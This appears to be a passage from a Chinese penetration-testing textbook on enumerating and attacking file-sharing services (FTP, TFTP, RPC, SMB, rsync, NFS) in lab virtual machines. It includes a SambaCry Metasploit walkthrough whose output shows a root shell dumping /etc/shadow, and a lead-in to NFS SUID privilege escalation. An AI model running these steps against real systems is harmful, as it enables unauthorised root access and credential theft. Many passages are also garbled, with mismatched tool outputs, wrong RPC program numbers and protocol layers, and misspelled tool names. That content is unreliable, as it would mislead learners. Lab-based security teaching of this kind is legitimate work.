PORT   STATE
21/tcp  open ftp
23/tcp  open telnet
111/tcp  open rpcbind
139/tcp  open netbios-ssn
445/tcp  open microsoft-ds
631/tcp  open ipp
873/tcp  open rsync
2049/tcp open nfs
MAC Address: 08:00:27:C8:44:67 (Oracle VirtualBox virtual NIC)
```

Nmap done: 08:00:27:C4:67 (1 host) scanned in 13.135 seconds

对于本章，你可以使用邮件服务器和书籍实验室来尝试工具和技术。这两个服务器都没有提供之前所示的相同的开放端口，但邮件服务器实验室运行着一个 FTP 服务，我们第一次遇到它时没有探测它，所以让我们先看那个。请记住，你也可以在自己的虚拟机上安装软件。如果你设置了一个运行 Ubuntu 服务器的虚拟机（如之前为学习 DNS 所建议的那样），你会发现可以使用 `apt` 轻松地添加各种文件共享服务。

## 文件传输协议

FTP 定义在 RFC 959 中，编写于 1985 年。原始的、现已的规范可以在 RFC 756 中找到，日期为 1980 年。对文件传输协议的提及可以在更早的文档中找到——1971 年的 RFC 114。FTP 在今天仍然非常流行，但它的使用在互联网普通用户中已经没有以前那么常见了。FTP 的默认端口是 TCP 端口 21。它可以被配置为匿名访问，允许任何人下载文档。此功能的设计目的是让公共资源可供下载，它仍然被用于分发某些软件包。FTP 是一种像 DNS、SMTP 和 HTTP 那样的明文协议，这意味着它容易受到中间人 (MitM) 攻击。它可以在 SSL/TLS 上运行，但通常会发现它没有任何额外的加密。这意味着文件在通过线路传输时可以被截获，用于访问 FTP 服务器的用户名和密码（这些凭据）也是如此。FTP 不可能是员工或组织成员之间互相发送文件的主要方式；对于日常使用来说，它既麻烦又不直观。FTP 有各种派生版本，如安全 FTP (FTPS)、简易 FTP (TFTP) 和简单 FTP (SFTP)。还有基于 SSH 的 FTP 协议（也称为 SFTP）。

邮件服务器在默认 TCP 端口 21 上运行着一个 FTP 服务，我们第一次遇到它时如此。让我们用 Netcat 仔细查看一个端口。你可以记住如何使用 `nc <TargetIP>` 连接到端口。你应该能看到一个欢迎横幅（后面跟着提示符），看起来如下：

```
220 ProFTP 1.3.3a Server (Private FTPD) [192.168.56.104]
```

你可以在 Searchpilot 和 Metploit 中搜索该软件名称和版本。可以使用帮助命令来显示该服务支持的命令列表。你可以尝试使用用户和 pass FTP 命令登录。首先输入 `anonymous`，例如对于 `foo@example.com`（因为服务要求提供一个电子邮件地址作为密码）。你也可以尝试使用 `ftp` 作为用户名，这通常用于匿名访问。如果 FTP 服务被配置为允许匿名登录，这种方法是有效的，但在本情况下并不行——你不会获得访问，而是看到一个 FTP 530 错误代码和“Login incorrect”消息，如下所示：

```
220 ProFTP 1.3.3a Server (Private FTPD) [192.168.56.104]
user anonymous
331 Anonymous login, send your complete email address as your password
pass foo@foo.com
530 Login incorrect.
```

你可能足够幸运遇到允许匿名访问的服务器，在这种情况下，你会看到类似下面的内容。在这里尝试了相同的 `anonymous` 用户名，以及 `anonymous` 密码。

```
220 welcome to fileserver01 ftp service
user anonymous
333 Please specify the password.
pass anonymous
230 Login successful.
```

另一种探测 FTP 服务的方法是使用命令行或 GUI FTP 客户端。如果你还没有 FTP 客户端，可以在 Kali Linux 中使用 `apt install` 安装。尝试连接到文件传输以发现，你可能会看到：

```
220 ProFTP 1.3.3a Server (Private FTPD) [192.168.56.104]
200 PORT command successful
150 Opening ASCII mode connection
226 Transfer complete
```

一旦发现 FTP 运行在服务器上，你可能会看到：

```
220 ProFTP 1.3.3a Server (Private FTPD) [192.168.56.104]
```

你应该能够通过这种方式发现，文件在通过线路传输时可以被拦截：

```
231 Password required for user
Password:
```

尝试下载文件，使用 `get <Filename>` 命令。如果文件不存在，或者你可能会看到类似下面的内容：

```
220 ProFTP 1.3.3a Server (Private FTPD) [192.168.56.104]
350 File not found
Error code 1: File not found
```

一旦你获得了访问权限，可以使用其他命令，例如 `ls` 列出目录内容和 `cd` 更改当前工作目录。你可能会发现以下内容：

```
200 PORT command successful
150 Opening ASCII mode connection
226 Transfer complete
```

你可能在这里立即发现一些有趣的信息，或者你可能需要深入。如果能够向服务器上传文件，这有助于你进一步利用。针对脆弱 FTP 服务的利用通常需要写入或创建目录。

## 简易传输协议

如果一个带有“简易”一字的协议让你兴奋，那么可能意味着你正在像黑客一样思考！是的，简易文件协议 (TFTP) 很容易实现（详情见 RFC 1350）。该协议的设计初衷是简单，而不是像 FTP 那样安全。它运行在 UDP 端口 69 上，因此需要某种方式来验证已发送的数据。为了解决这个问题，TFTP 采用了一种被称为“锁步”的计算概念。锁步源于士兵在地面上的同步行进。在 TFTP 中，文件一个数据包地传输，并在发送下一个数据包之前验证其到达。TFTP 的常见用途是网络启动，使用启用预启动执行环境 (PXE，通常读作 "pixie") 的设备，例如。它确实需要大量的存储空间。TFTP 的有趣特性之一是你可能会尝试文件名 `config.bis`、`boot.bin`、`bin.run-config` 和 `startup-config` 等。有时 TFTP 被配置为允许用户写入文件，且它对盒子没有认证。这是一个危险的组合，因为这意味着用户或攻击者可以上传利用程序。你可能会在 TFTP 服务上发现暴露的、机密的网络/配置信息。让我们看看如果在发现的主机上运行 TFTP 服务可能会看到什么。安装后使用 `tftp <TargetIP>` 启动程序。然后在在提示符处，你可以使用 `?` 获取帮助。尝试下载文件，使用 `get <Filename>` 命令。如果文件不存在，或者你可能会看到类似下面的内容：

```
Received 1747 bytes in 0.0 seconds
```

有很多 TFTP 暴力破解工具可以使用，包括 Metasploit 中的一个。如果你想实验或了解更多关于 TFTP 的知识，可以在 Ubuntu 服务器虚拟机（VM）上安装 TFTP 守护进程。确保你已经安装了 `xinetd` 和 `tftpd` 包。你需要在正确的位置创建一个新的配置文件，这可以通过 `sudo nano /etc/xinetd.d/tftpd` 完成。在该文件中，你应该添加以下内容：

```
service tftp {
  protocol = udp
  port = 69
  socket_type = dgram
  wait = yes
  user = nobody
  server = /usr/bin/tftpd
  server_args = /tftp_test
  disable = no
}
```

运行时，TFTP 服务将从 `server_args` 指定目录提供文件，在本例中该目录是 `/tftp_test`（在之前的输出中突出显示）。你需要创建该目录，可以通过 `sudo mkdir /tftp_test` 完成。然后更改该目录及其内部任何文件的位模式，以便远程客户端可以访问，可以使用 `chmod -R 777 /tftp_test`。`-R` 选项告诉 `chmod` 递归应用更改。接下来，允许任何人访问此文件夹。使用 `sudo chown -R nobody /tftp_test` 将 `/tftp_test` 目录的所有者改为 `nobody`。同样，`-R` 选项递归应用。最后，使用 `service restart` 重启 `xinetd` 服务。在 `/tftp_test` 文件夹内创建一个新文件，你应该应该能够从 Kali 虚拟机使用 TFTP 客户端访问它了。你也可以针对书籍实验室尝试 TFTP 攻击，其中包含了一些容易猜测的常用 Linux 文件供你访问！

## 远程过程调用

如果你在网络共享上访问了一个文档，尝试编辑该文档，并看到类似“此文件已锁定以便编辑”的消息，那么你至少遇到过一次使用远程过程调用（RPC）的情况。程序使用 RPC 在另一个主机上运行过程或子程序，就像运行一个的本地过程一样。换句话说，想象一个程序首先在远程主机上定位一个文件，检查它是否被锁定，如果可用则将其锁定以便独占编辑。对于这项工作，本地程序将运行一个类似 `CheckLock(FileName)` 的过程。从程序员的角度来看，该过程可能运行在远程或本地——如果发起了 RPC，请求将发送到远程主机，并在本地程序等待响应的同时运行 `CheckLock(FileName)` 过程。远程主机将在文件被锁定后返回 `true`，否则返回 `false`。RPC 显然并不是文件服务器和处理所独有的，但该系统在网络上共享文件时提供了一些重要功能。需要指出的是，RPC 不是一个协议，而是一个模型，长期以来已经使用了许多不同且不兼容的方式来实现它。然而，存在一些协议，例如我们将涉及的开放网络计算（ONC）RPC 协议，你可以在 RFC 5531 中阅读相关内容。通常，这种 ONC RPC 协议被简单称为 RPC，我们也如此，尽管这可能会引起一点困惑。然后是 Microsoft RPC 协议，我们将也会检查。

需要记住的一点是，RPC 并不总是调用运行在物理远程主机上的过程。可能是 RPC 用于运行驻在同一物理机器但在不同虚拟地址空间中的过程。这些有时被称为本地调用（LPCs）。

你可能会遇到运行在 TCP 端口 111 名为 `rpcbind` 或 `portmapper` 的服务。事实上，`rpcbind` 出现在之前对漏洞文件服务器的端口扫描中。该行如下：

```
111/tcp open rpcbind
```

`Rpcbind` 是一个运行在服务器上的 ON RPC 工具，它监听入的 RPC 请求。它本身不处理请求；而是将它们转发到服务器上正确的端口。它将 RPC 程序号映射或绑定到它监听的端口上，该端口可以处理该特定调用。程序号用于识别 RPC 可以提供的许多不同功能。例如，程序号 100021 是网络锁管理器，简称为 `locknmgr`。此特定服务负责处理从客户端到文件的调用（即处理文件是否正被他人编辑）。程序号 100021 将由 `Rpcbind` 映射到 `lockmgr` 运行的端口。`locknmgr` 是网络文件系统（NFS）的一部分，NFS 通常用于在 UNIX 类系统之间共享文件。


# 第 9 章 文件与文件共享

还有许多其他 RPC 程序号，但现在我们专注于与文件共享相关的那些。负责映射程序号的程序 `RpcBind` 也有它自己的程序号——100000。NFS 的程序号为 100003，用于处理挂载 NFS 网络文件夹的服务称为 `mount`（mount 守护进程），其程序号为 100023。另一个文件共享的重要服务是 `stat`（状态守护进程），其程序号为 10024。

你应该安装的一个有用包（在你的 Ubuntu 虚拟机和 Kali 虚拟机上，如果尚未存在）是 `nfs-common`（使用命令 `sudo apt install nfs-common`）。该包包含了许多工具，包括 RPC。你不需要知道为什么 RPC 很有趣。在网络中，由于协议的复杂性，所有这些协议共同完成了共享文件的简单任务！然而，这也存在恶意者利用的空间。

## RPCinfo

你可以使用名为 `rpcinfo` 的工具查找远程主机提供的服务。尝试使用 `rpcinfo -p <TargetIP>`，如果 `rpcbind` 运行，它将显示类似的输出（取自常用系统）：

| program | vers | proto | service |
|---|---|---|---|
| 100000 | 4 | tcp | 111 |
| 100000 | 3 | tcp | 111 |
| 100000 | 2 | tcp | 111 |
| 100000 | 4 | udp | 111 |
| 100000 | 3 | udp | 111 |
| 100000 | 2 | udp | 111 |
| 100024 | 1 | udp | 503 |
| 100024 | 1 | tcp | 554 |
| 100003 | 2 | tcp | 2049 |
| 100003 | 3 | tcp | 2049 |
| 100003 | 4 | tcp | 2049 |
| 100027 | 2 | tcp | 2049 |
| 100027 | 3 | tcp | 2049 |
| 100003 | 2 | udp | 2049 |
| 100003 | 3 | udp | 2049 |
| 100003 | 4 | udp | 2049 |
| 100027 | 2 | udp | 2049 |
| 100027 | 3 | udp | 2049 |
| 100021 | 1 | udp | 3582 |
| 100021 | 3 | udp | 3582 |
| 100021 | 4 | udp | 3582 |
| 100021 | 1 | tcp | 4590 |
| 100021 | 3 | tcp | 4590 |
| 100021 | 4 | tcp | 4590 |
| 100005 | 1 | udp | 60976 |
| 100005 | 1 | tcp | 37269 |
| 100005 | 2 | udp | 45547 |
| 100005 | 2 | tcp | 57577 |
| 100005 | 3 | udp | 39685 |
| 100005 | 3 | tcp | 51681 |

`portmapper` 服务与 RPC 服务类似，不同的工具以不同的方式报告同一个服务。此主机上提供的其他程序与 NFS 相关。如果你使用正确的选项，可以使用 Nmap 来检测并显示 RPC 信息（`-A` 选项是合适的，因为它包含了 RPC 版本检测），如下针对另一个主机的所示（尝试扫描你的 Ubuntu 服务器虚拟机或主机）：

```
PORT STATE SERVICE VERSION
111/tcp open rpcbind 2-4 (RPC #100000)
| RPCinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,4 111/udp rpcbind
```

在这个特定主机上，只运行了 `rpcbind` 服务，但如果你在 Ubuntu 服务器虚拟机上添加更多使用 RPC 的服务（如 NFS），你将看到更多结果。

## Server Message Block

Server Message Block (SMB) 协议通常用于本地网络上的文件共享，它因在 Microsoft Windows 网络上的使用而最闻名。它运行在 OSI 模型的第 6 层（表示层）。SMB 起始于 1983 年的 IBM，微软在多年来的持续发展中发挥了实质性作用。在某一个时期，微软发布了一个名为通用互联网文件系统（CIFS）的 SMB 版本，这个名称一直保留了下来。你会发现最近的 SMB 版本经常被称为 CIFS。微软还发布了一个名为 SMB 2.0 或 SMB2 的 SMB 私有版本，但它发布了规范以允许其他操作系统与微软的操作系统通信。微软随 Windows 8 和 Windows Server 2012 发布了 SMB3，并在之后进行了进一步的更新，Windows 10 和 Windows Server 2016 运行着迄今为止最安全的协议版本。

微软在计算机市场的主导地位，以及后来在企业市场的主导地位，导致 Apple 采取了 SMB 协议。UNIX 类系统的所有者也希望与微软的文件共享协议兼容。1991 年，Samba 的工作开始，它是 SMB 的一种逆向工程、开源重新实现。Samba 如今被广泛使用，它允许 UNIX 类系统和微软系统在同一网络上轻松地共享资源。Samba 实际上实现了一系列不同的微软协议（不仅仅是 SMB）。尽管如此，目前我们将重点关注文件共享。SMB 协议的有趣之处在于它有许多不同的版本，其中许多版本在现实环境中仍在运行。运行第 1 版 SMB 协议的系统并不常见，该版本容易受到已知的攻击。你可能会看到在 TCP 端口 445 上运行着 SMB 服务（例如：`microsoft-ds`），但在使用网络基本输入输出系统（NetBIOS）时，也可以通过其他端口使用 SMB 访问文件共享。

### NetBIOS 和 NBT

NetBIOS 严格来说并不是一种协议。相反，在 SMB 时，它是一个重要的 API。这是因为 SMB 可以通过 NetBIOS 运行，表现为在 TCP 端口 137 和 139 以及 UDP 端口 137 和 138 上运行的服务。基于 TCP/IP 的 NetBIOS (NBT) 协议定义在 RFC 1001 和 RFC 1002 中，它是第 5 层协议（在 OSI 模型中位于 SMB 协议之下），其开发目的是为了让旧的 NetBIOS 能够在现代 TCP/IP 网络上使用。有一个工具 `NbtScan` (unixwiz.net/tools/nbscan.html) 可以返回主机的 NetBIOS 信息。你可能会在 Nmap 结果中看到运行在 TCP 端口 139 上的 `netbios-ssn`（ssn 是 session 的缩写），在这种情况下运行 `NbtScan (nbscan -v <TargetIP>)` 是值得的。以下是针对服务器运行 NbtScan 的结果：

> 正在对地址 192.168.56.105 进行 NBT 名称扫描
>
> 主机 192.168.56.105 的 NetBIOS 名称表：
>
> 数据包不完整，长度 335 字节。

| Name | Service | Type |
|---|---|---|
| FILERVER0 | <00> | UNIQUE |
| FILERVER0 | <03> | UNIQUE |
| FILERVER0 | <20> | UNIQUE |
| FILERVER0 | <00> | UNIQUE |
| FILERVER0 | <03> | UNIQUE |
| FILERVER0 | <20> | UNIQUE |
| MSBROWSE | <01> | GROUP |
| HACKHOUSE | <1d> | UNIQUE |
| HACKHOUSE | <1e> | GROUP |
| HACKHOUSE | <00> | GROUP |
| HACKHOUSE | <1d> | UNIQUE |
| HACKHOUSE | <1e> | GROUP |
| HACKHOUSE | <00> | GROUP |

适配器地址：DE:AD:BE:EF:FA:BE

你在 Service 列中看到的这些十六进制字符表示每个名称下可以访问的服务类型。NetBIOS 的功能部分，是一种查找服务，这与 DNS 并不完全相似。许多不同的服务器名称可以映射到单个 IP 地址。如果你想连接到网络，只需要名称即可。

> **注意**：NetBIOS 名称最大为 15 字节，使用 NULL (0x00 字节) 作为填充，并在名称末尾附加额外的字节以指示服务类型。这个 NetBIOS 名称的第 16 个字节表示 `nbscan` 输出表中列出的服务。你可以在此处阅读更多关于 NetBIOS 名称表示法的知识：
> docs.microsoft.com/en-us/openpcs/windows_protocols/ms-brws/940f299f-669f-4a0b-8411-9ead7e2f31ec

NetBIOS 处理将名称解析为 IP 地址。这些字符被称为 NetBIOS 后缀或结束字符，每个字符都有特定的含义。以下是之前的（以及其他常见的）后缀代表的含义：

**当 Type 为 UNIQUE 时：**

- 00: 工作站服务
- 03: 消息服务 (Messenger service)
- 20: 文件服务
- 1b: 区域主节点（位于主域控制器上）

**当 Type 为 GROUP 时：**

- 00: 工作站服务
- 01: 主浏览器 (Master browser)
- 1c: 域控制器
- 1e: 浏览器服务

这在现在听起来可能没太大意义，但由于这是微软的领域，我们将此对此的详细解释留到第 1 章。现在，你只需要对 NetBIOS 是什么以及它为什么有用有一个大致的概念。正如你很快看到的，有更简单的方法发现主机上是否运行了 SMB、CIFS 或 Samba。

### Windows 域和域控制器

Windows 网络通常组织成称为“域”的逻辑结构，这与 DNS 相似。每个域都必须有一个主域控制器 (DC)，它是网络上的单点（节点），负责处理所有用户和共享资源的管理。通常还会使用额外的域控制器 (DCs)，当它们因为硬件故障等原因不可用时，它们可以接管该角色。

### Samba 设置

你可以通过 `sudo apt install samba` 在 Ubuntu 上安装 Samba。这将启用 netbios 和 microsoft-ds 服务。要设置文件共享，你需要使用 `sudo nano /etc/samba/smb.conf` 编辑 Samba 的配置文件。在文件末尾添加以下行，将把 `/home` 目录暴露为文件共享：

```ini
comment = Samba
path = /home
read only = no
browsable = yes
```

你可能还会发现为你的虚拟机添加一个新用户很有用，你可以将其认为一个可能访问文件的账户。要此操作，请使用 `useradd -m employee`。使用 `smbpasswd` 命令为该用户设置 Samba 密码（这与存储在 `/etc/shadow` 中的密码不同）。你需要使用 `-a` 选项，如下：

```bash
sudo smbpasswd -a employee
```

然后你将能够输入并确认新密码，密码不会显示在屏幕上。结果将类似于以下：

```
New password:
Enter new password:
Added user employee.
```

运行 `sudo service smbd restart` 来重启 Samba 服务以应用你所做的更改。现在，如果你对你的 Ubuntu 虚拟机运行 Nbtscan，将看到类似下面的输出：

```
================================================================
Users on 192.168.56.106 via RID cycling (RIDS: 500-550,1000-1050)
================================================================
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-17359221339-6844063-208592612
[I] Found new users using SID: S-1-5-21-17359221339-6844063-208592612
[I] Enumerating users using SID '', 'password' *S-1-5-21-17359221339-6844063-2085926201 UBUNTU\nobody \*unknown\*unknown*
```

这里的 EnumLinux 正在尝试使用称为资源 ID (RID) 循环的技术来枚举目标主机上的用户。然而，这个 ID 对于资源来说是什么？Windows 系统以及那些同步 Windows 系统的系统（在这种情况下为 Samba）拥有安全标识 (SID)，就像系统上的用户一样。这是一个唯一的标识符，格式为 `S-1-5-21-1735922139-68440663-208592612`。这些 SID 并不是为了方便用户记忆，因为它们对典型用户是隐藏的。RID 是在 SID 末尾添加的数字标识符，它相对于 SID 唯一标识一个用户。一旦知道了系统，就可以枚举 RID；默认情况下遵循某种模式。RID 500 通常表示 Windows 管理员账户，而 501 是访客账户。添加到系统的非默认用户账户通常从 1000 开始。之前显示的输出没有显示这种行为；命令是针对 Ubuntu 服务运行的，它不遵循这种可预测的 RID 枚举。

查看 EnumLinux 发现的其他信息。在以下输出中，你可以看到 EnumLinux 获取了 NBT 信息，与 NbtScan 相同，为了方便增加了服务名称。突出显示的服务。这就是你之前配置的 Samba 共享。

| Nbtstat Information for 192.168.56.106 |
|---|
| Looking up status of 192.168.56.106 |
| |
| UBUNTU <00> B <ACTIVE> Workstation Service |
| UBUNTU <01> B <ACTIVE> Messenger Service |
| UBUNTU <02> B <ACTIVE> File Server Service |
| MSBROWSE <01> <GROUP> B <ACTIVE> Master Browser |
| WORKGROUP <0c> <GROUP> B <ACTIVE> Domain/GroupName |
| WORKGROUP <1d> B <ACTIVE> Master Browser |
| WORKGROUP <1e> <GROUP> B <ACTIVE> Browser Service Elections |

IPC$ IPC 服务 (ubuntu server (Samba))

正在重新连接 SMB1 以获取工作组列表。

| 服务器 | 注释 |
|---|---|
| Workgroup | Master (主) |
| WORKGROUP | UBUNTU |

```
[+] Attempting to map shares on 192.168.56.106
//192.168.56.106/print$ Mapping: DENIED, Listing: N/A
//192.168.56.106/sambatest [E] Can't understand response:
//NT_STATUS_OBJECT_NAME_NOT_FOUND listing\*
```

你还会看到返回了目标主机的密码策略信息，并且使用了 `rpcclient`（一个用于测试微软 RPC 实现的实用程序）进行此操作，同样通过 SMB 进行。

- [+] 使用 rpcclient 获取了部分密码策略

密码复杂度：已禁用

最小密码长度：5

如果你发现了一个文件共享，你应该尝试作为网络上的普通用户或员工将其挂载。你也可以使用标准的客户端工具如 `smbclient` 来对主机进行探测和交互。可以尝试匿名登录，就像你对 FTP 做的那样。要执行此操作，请使用 `smbclient -L <TargetIP>`

这将产生如下所示的密码提示：

```
Enter WORKGROUP\root's password:
```

直接按回车且不输入密码。如果服务器配置了匿名访问，你将收到匿名登录成功的消息。如果你能够匿名连接，可以像使用 FTP 客户端一样使用 `smbclient`。要连接，你需要使用服务器的 NetBIOS 名称和服务名称作为：

```
smbclient //NetBIOSName/Service
```

以 Ubuntu 虚拟机为例，你可以输入 `smbclient //UBUNT/samba_test`，然后在提示时输入空密码，这（除非你为文件共享配置了匿名访问）将导致以下消息的消息：

```
tree connect failed: NT_STATUS_ACCESS_DENIED
```

在支持匿名访问的主机上（例如我们的书籍实验室），你可以执行类似 `smbclient //FILESERVER01/data`、输入空密码，然后看到与后续屏幕类似的输出：


# SMB 与文件共享

## SMB 连接示例

```
Enter WORKGROUP\root@password:
Anonymous login successful
smb: \dir
    D    0 Mon Mar 6 15:11:42 2017
    D    0 Wed Jul 10 14:28:11 2019
.bash_hook H   220 Sat Nov 5 14:19:12 2016
.bashrc  H   3392 Mon Mar 3 15:05:09 2014
.profile H    675 Sat Nov 5 14:19:12 2016
smb: \\
103476 blocks of size 1024, 1030360 blocks available
```

## SMB 文件系统挂载

使用 SMB 允许你像 FTP 客户端允许远程访问 FTP 服务一样，连接到托管 SMB 共享的远程主机。如果你想为 Kali Linux 挂载文件系统，你需要使用 `apt install cifs-utils` 安装必要的工具。然后，你可以如下使用 `mount` 命令：

```
mount -t cifs -o vers=1.0,user=<username> //TargetIP/data /mnt/data
```

这里 `-t` 选项用于指定 CIFS 为远程文件共享的类型（记住 SMB 和 CIFS 是同一个东西）。然后 `-o` 用于指定若干不同的选项。在这种情况下，协议版本被设置为 1.0（该协议的一个旧版本，且不安全）。

## SambaCry 漏洞

由于 SambaCry 利用该漏洞，攻击者可以上传（或写入）共享对象（`.so` 文件）。由于攻击者知道该文件的名称，该漏洞被称为 `is_known_pipe`。在 Windows 上，由于 Windows 使用反斜杠，格式如下：

```
\\TargetIP\Shared
```

由于 Windows 使用反斜杠字符，SambaCry 所利用的漏洞在 Windows 上基于反斜杠的格式如下：

```
\\TargetIP\SharedResource
```

如果你在 Metasploit 中搜索 Samba，你会在结果中看到此漏洞。除非你安装了旧版本的 Samba，否则该漏洞在你的 Ubuntu 虚拟机上无效。旧版本的 Samba 可以在嵌入式设备上运行，甚至现代路由器也是，允许用户在家庭网络中以最小的兼容性选项快速共享文件。为此，它们可能也使用（过时的）1.0 版本的 SMB 协议。

## 传统管道与命名管道

你可能还记得从文本文件中使用用户名进行 `Parallel` 和 `Finger` 检查，这些被用于检查邮件服务器上是否存在用户，作为暴力破解攻击的一部分。传统的管道是无名的且生命周期仅限于进程，而命名管道在需要时一直存在，允许不同的进程对其进行读写。

## Metasploit 利用配置

这会导致目标系统出现不稳定。当你选择好模块后，请确保阅读了相关信息，并检查需要设置哪些选项。你可能需要设置一些在模块信息或选项列表中未显示的额外选项。这些是 `SMBUser`（已知的用户名）和 `SMBPass`（用户的密码）。你还需要像往常一样设置 `RHOSTS`，你也可以设置 `SMB_SHARE_NAME`，如果你使用的是之前显示的示例，它将是 `/smamba_test`。

记得设置一个有效负载，例如 `cmd/unix/interact` 负载。如果你使用选项，你会发现不需要进一步设置其他选项。如果此漏洞成功运行，你将获得远程服务器的 root 权限——但先不要急着庆祝！虽然该漏洞的评级为“优秀”且不应该造成任何伤害，但它是不稳定的，目标上受影响的进程有时在几秒钟后会被 Samba 服务终止。

为了充分利用此漏洞，你需要准备好本地命令，以便在连接关闭之前将命令粘贴到 shell 中。接下来的输出显示漏洞成功运行。在 Metasploit 创建会话后，作者使用 `id`（以验证用户是否为 root）通过 `cat /etc/shadow` 输出目标 `/etc/shadow` 文件的内容（已检索部分条目）。然后，会话被远程进程终止。你可以在本地虚拟机上尝试，使用用户名 "backups" 来尝试猜测密码。

- [] 192.168.56.105:445 - 使用位置 `\192.168.56.105\data` 作为路径
- [] 192.168.56.105:445 - 正在检索共享 'data' 的远程路径
- [] 192.168.56.105:445 - 共享 'data' 服务器端路径为 /data
- [] 192.168.56.105:445 - 已上传负载到 `\192.168.56.105\data\JEdFKhHo.so`
- [] 192.168.56.105:445 - 正在通过 `\\PIPE/data/JEdFKhHo.so` 从服务器端路径 /data/JEdFKhHo.so 加载负载...
- [] 192.168.56.105:445 - >> 加载失败：STATUS_OBJECT_NAME_FOUND
- [] 192.168.56.105:445 - 正在通过 `/data/JEdFKhHo.so` 从服务器端路径 /data/JEdFKhHo.so 加载负载...
- [] 192.168.56.105:445 - >> 加载失败：STATUS_OBJECT_NAME_FOUND
- [] 192.168.56.105:445 - 已上传负载到 `\192.168.56.105\data\gQdHoVo.so`
- [] 192.168.56.105:445 - 正在通过 `\\PIPE/data/gQdHoVo.so` 从服务器端路径 /data/gQdHoVo.so 加载负载...
- [] 192.168.56.105:445 - 探测响应表明交互式负载已加载...
- [] 找到 shell。
- [] 命令 shell 会话 1 已打开 (192.168.56.102:39169 -> 192.168.56.105:445) 时间为 2019-06-12 16:50:56 +0100

```
id
uid=0(root) gid=0(root) groups=0(root)
cat /etc/shadow
root:$6$iWlmk7ZfOM9yn/in/te/sq6YoofreGB8SwhuLM7.Q.298eKXz13qNIUC0k1XepnDorMjynvg.g4vXRKT0:17231:0:99999:
johnp:pAa7HTSak:17231:0:99999:
peterk:diYAffUsQ2:17231:0:99999:
jenvy:VzdoyHVi:17231:0:99999:
stephena:zQMBG2RG:17231:0:99999:
sarah:YY.jj2dWM:17231:0:99999:
clairea:JBQ2JYpeU:17231:0:99999:
backupsrv:pDHuLGQs:17231:0:99999:
192.168.5.105 - 会话关闭。
```

# Rsync

Rsync (rsync.org) 是用于同步两个位置文件的工具。它可以用于将工作站上的文件备份到远程文件服务器。它也经常用于内部网络中的包管理。与任何文件系统一样，它可能配置不当，导致敏感文件泄露。2003年，一个恶意黑客通过包管理系统开始对 Gentoo 发行版进行后门植入。由于 Rsync 的一个漏洞，这是可能的。幸运的是，攻击被一个正在运行包检查的极其谨慎的管理员阻止了。该攻击者未被识别。

Rsync 可以以多种方式使用或滥用。如果主机上有守护进程，它默认监听端口 873。要了解更多关于 Rsync 的信息，可以参考 rsync.org/how-rsync。你可以使用 rsync 命令指定资源：

`rsync://<TargetIP>`

这将提供一些信息并列出你可以访问的文件夹。以下是可能返回的示例：

| 资源 | 描述 |
| :--- | :--- |
| data | backupsrv data |
| home | user home |

## 文件与共享访问

这里有两个你可以尝试访问的资源：data 和 home。要访问 data 资源，你可以将其添加到 URI：

`rsync://<TargetIP>/data`

这将列出 data 目录中的任何文件夹或文件。对于同一个主机，`rsync://<TargetIP>/home` 会产生以下目录列表：

```
drwx-xr-x 101 2017/03/06 23:11:41 claire
drwx------ 66 2017/03/06 23:11:41 jenny
drwx------ 66 2017/03/06 23:11:38 johnp
drwx-xr-x 79 2017/03/06 23:11:43 peterk
drwx------ 66 2017/03/06 23:11:41 sarah
drwx------ 66 2017/03/06 23:11:40 stephena
```

查看之前的输出，你可以看到你也获得了可访问目录的权限。在本章前面的部分，我们讨论了这些权限与用户、组和其他（不属于定义组的账户）的关系。在处理网络服务时，这些权限显然是相关的。如果你尝试访问 claire 的 home 文件夹，将收到以下内容：

```
rsync: change_dir "claire" (in home) failed. Permission denied (13)
rsync error: some files/attrs were not transferred (see previous errors) (code 2) at main.c(1677) [Receiver=3.1.3]
rsync error: Connection reset by peer (104)
```

查看权限输出，你应该能看到系统上组和其他用户的用户读取和执行权限。你不会从 Rsync 获取所有者或组的详细信息，但你可以滥用这些过宽的文件权限来读取文件。使用 `rsync://<TargetIP>/home/peterk/` 将允许攻击者列出用户家目录中的文件，并可能访问敏感数据。这里有一个示例：

```
root@~# rsync rsync://192.168.56.105/home/peterk/
drwx-xr-x 79 2017/03/06 23:11:43
-rw-r--r-- 220 2016/11/05 14:19:12 .bash_logout
-rw-r--r-- 3392 2014/11/05 14:19:12 .profile
```

查看之前的输出，你可以发现这些权限是相关的。在配置文件中，你应该查看 `rsync.conf`。

# 网络文件系统 (NFS)

如果说 SMB 是用于文件共享，那么 NFS 可能是 UNIX 的等效物。NFS 是最初由 Sun Microsystems 开发的。版本 1 是内部使用的，但随后的版本 NFSv2、NFSv3 和 NFSv4 作为开放协议发布。你应该在 Kali 主机上安装 `nfs-common` 以确保拥有 NFS 客户端和工具。你也可以为 Ubuntu 服务器安装 `nfs-kernel-server`。该包将在你的虚拟机上运行 NFS 服务并允许你尝试某些 NFS 活动。

你可能注意到实验环境中运行着 NFS 服务。你可以使用名为 `showmount` 的工具配合 `-e` 选项来显示导出列表，即可以挂载的共享。针对实验环境运行 `showmount -e <TargetIP>`，你会看到类似如下的内容：

```
Export list for 192.168.56.105:
/data *
/home 192.168.1.0/24
```

在你的 Kali 上的 `/mnt/data` 目录（或你挂载远程 NFS 导出的任何目录）创建一个文件，你会发现文件的所有者是 root。你看出这其中的问题了吗？目标服务器信任了客户端（你的 Kali 虚拟机），并允许一个由 root 用户所有的文件添加。让我们看看在这种情况下你接下来可以做什么。

## NFS 权限提升

假设你已经以非 root 用户身份访问了目标系统。现在我们将查看如何通过以非 root 用户身份运行 `/bin/sh`（启动 shell 的可执行文件）来提升权限，但该文件设置了 SUID 权限且由 root 用户所有。这意味着执行该文件将为你提供一个有效用户 ID (EUID) 为 root 的 shell。在开始之前，请确保数据目录（或其他目录）已按照上一节中所示的步骤挂载。

你需要一个不同的漏洞来获取一个（以非 root 用户身份运行的）shell，这对于练习接下来的这种权限提升技术是恰当的。SambaCry 漏洞在这里不是一个很好的例子，因为该漏洞让你直接获得了 root 访问权限，因此没有必要进一步提升权限。也许你已经知道一个用户名和密码（或者想用 Hydra 破解密码），并发现了一个允许你以合法用户身份登录以获取 shell 的服务。你可以尝试破解 "backups" 账户的密码，并通过 Telnet 访问 shell。

